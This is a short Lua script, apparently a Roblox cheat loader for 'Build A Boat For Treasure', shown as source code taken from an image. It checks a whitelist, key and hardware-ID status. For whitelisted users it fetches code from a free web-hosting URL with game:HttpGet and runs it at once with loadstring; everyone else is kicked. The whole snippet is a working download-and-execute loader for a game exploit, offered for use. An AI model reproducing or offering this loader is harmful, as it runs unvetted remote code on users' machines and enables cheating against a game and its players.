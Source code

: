 if Server == "WHITELIST !" then
   loadstring(game:HttpGet("https://best-wh-bi.000webhostapp.com/Execute%20Build%20A%20Boat%20For%20Treasure"))()
elseif Server == "Invaid HWID !" then
    game.Players.LocalPlayer:kick("Invaid HWID")
elseif Server == "Invaid Key" then
    game.Players.LocalPlayer:kick("Invaid Key")
else
    game.Players.LocalPlayer:kick("Invaid Key")
end
